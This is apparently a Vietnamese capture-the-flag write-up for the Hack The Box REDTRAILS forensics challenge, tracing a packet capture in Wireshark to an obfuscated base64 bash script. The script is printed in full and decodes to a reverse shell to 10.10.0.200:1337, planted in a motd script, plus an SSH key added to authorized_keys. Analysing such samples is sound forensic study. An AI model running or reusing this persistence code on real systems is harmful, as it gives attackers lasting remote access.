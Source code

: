 # _REDTRAILS_
Lần này thử thách ở mức medium và flag được chia làm 3 phần
![image](https://github.com/user-attachments/assets/3580497d-6464-4fe6-a50a-cbbee1645a3b)

Tải về tệp zip, giải nén ta có được 1 file .pcapng, mình dùng wireshark để phân tích

![image](https://github.com/user-attachments/assets/9a9a2e07-9448-4f0b-aee3-7464ec81b8af)

Mở ra thì mình thấy có 2 giao thức quen thuộc là **TCP**, **HTTP** và 1 giao thức lần đầu mình gặp là **RESP**

![image](https://github.com/user-attachments/assets/4591df69-e5f7-4042-a6c2-69845dab820e)

Khi mình gặp **HTTP** thì mình thường dùng **export object HTTP** 

![image](https://github.com/user-attachments/assets/edfc54b5-1f16-457c-96f3-fa950caa3cc1)

Follow HTTP stream của packet đó ta được một đoạn hội thoại giữa client và server như sau

![image](https://github.com/user-attachments/assets/30c631b4-966e-4b88-b92e-1b084bfa81de)

Nhìn cũng không hiểu lắm nhưng mình thấy 1 đoạn mã rất giống base64 nhưng bị viết ngược, mình thử convert lại bằng python

![image](https://github.com/user-attachments/assets/676810c5-0bff-423c-8679-b2f59c6ecd57)

Lấy đoạn mã đó và dùng cyberchef from base64, ta được

```
#!/bin/bash

lhJVXukWibAFfkv() {
	ABvnz='ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R'
	QOPjH='jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9'
	gQIxX='ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK'
    echo "$ABvnz$QOPjH$gQIxX" | base64 --decode | bash
}

x7KG0bvubT6dID2() {
	LQebW="ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL"
	gVR7i="M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52"
	bkzHk="bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH"
	q97up="ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s"
	GYJan="bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK"
	HJj6A="UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr"
	fD9Kc="R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3"
	hpAgs="SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp"
	FqOPN="emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw"
	CpJLT="Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5"
	PIx1p="cw=="
	echo "$LQebW$gVR7i$bkzHk$q97up$GYJan$HJj6A$fD9Kc$hpAgs$FqOPN$CpJLT$PIx1p" | base64 --decode | bash
}

hL8FbEfp9L1261G() {
	lhJVXukWibAFfkv
	x7KG0bvubT6dID2
}

hL8FbEfp9L1261G
```
Theo ý hiểu của mình thì đây là một đoạn mã Bash bao gồm một tập hợp các hàm mã hóa bằng Base64, giải mã và thực thi mã đã giải bằng lệnh Bash. Nhìn thấy base64 khá ngứa tay nên viết 1 đoạn python để nối tất cả chúng lại

```
import base64

base64_strings = [
"ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R",
"jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9",
"ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK",
"ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL",
"M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52",
"bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH",
"ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s",
"bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK",
"UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr",
"R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3",
"SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp",
"emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw",
"Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5",
"cw==",
"lhJVXukWibAFfkv",
"x7KG0bvubT6dID2",

]
combined_base64 = "".join(base64_strings)
decoded_bytes = base64.b64decode(combined_base64)
decoded_string = decoded_bytes.decode('utf-8')
print(decoded_string)
```
Giải mã ta được 1 thứ gì đó..

![image](https://github.com/user-attachments/assets/96bbb608-cf11-4e11-a343-9405c40c1e5f)

Trong đó có part 1 của flag luôn
```
HTB{r3d15_1n574nc35"
```





